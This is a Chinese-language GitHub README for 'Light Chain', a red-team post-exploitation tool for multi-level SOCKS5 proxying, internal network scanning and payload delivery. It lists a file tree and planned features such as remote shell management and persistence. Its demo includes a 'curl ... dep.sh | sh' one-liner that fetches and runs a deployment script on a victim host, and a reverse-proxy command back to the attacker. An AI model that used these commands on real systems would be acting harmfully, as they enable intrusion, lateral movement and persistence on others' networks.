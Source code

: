 # Light Chain

![version](https://img.shields.io/github/v/release/MayMistery/LightChain?include_prereleases&label=version)
![license](https://img.shields.io/github/license/MayMistery/LightChain?color=FF5531)

红队工具，内网前哨站。轻量化，支持多级正、反向代理；载荷投递、落地；可以进行主、被动内网探测。

## Features

- socks5多级代理
- 主、被动内网探测
- 长链路载荷投递一键落地

## Todo
### Step 1
- [ ] 增加ssh端口转发
- [ ] 增加一键部署脚本
- [ ] 优化多级代理时的参数配置
- [ ] 增加socks5代理
- [ ] 增加-d后台运行
- [ ] 增加日志输出（可配置
- ### Step 2
- [ ] 考虑增加载荷投递
- [ ] Shell管理，或联动CS（远程命令执行
- [ ] 增加权限维持手段
- [ ] 考虑增加载荷投递

## Demo(预期)

- 攻击机（公网）`lChain -srv eth0 8888`
- 攻击机（无公网ip）`lChain -srv eth0 -local 8888`（文件服务器；正向socks5
读取配置文件cfg.ini中的公网机ssh配置，利用ssh进行远端端口转发搭建公网服务
- 宿主端一键落地 `curl http://host:post/dep.sh | sh`（服务端运行时生成dep.sh）
- 宿主端 `lChain -cli eth0 -C '121.*.*.1:8888,121.*.*.2:8888' 8888`(部署在eth0网卡上，-C从宿主机到攻击机路径，反向socks5连接

## Tree
```shell
├── LICENSE
├── README.md
├── cmd
│   ├── cmd.go    
│   ├── config.go    # 变量配置
│   └── flag.go      # arg配置、解析
├── clients
│   ├── clients.go    
│   ├── scan.go      # 扫描模块
│   └── chain.go     # 链路处理
├── server
│   ├── server.go    
│   ├── vps.go       # 远程端口转发获得公网ip
│   └── file.go      # 文件服务器
├── utils
│   ├── utils.go    
│   ├── dep.go       # 生成部署sh脚本
│   ├── socks5.go    # sock5代理
│   └── ssh.go       # 端口转发
├── go.mod
├── go.sum
├── main.go
├── makefile
├── release
├── file             # 文件服务文件夹
└── log              # 日志


```

## Contributor

<a href="https://github.com/MayMistery/LightChain/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=MayMistery/LightChain" />
</a>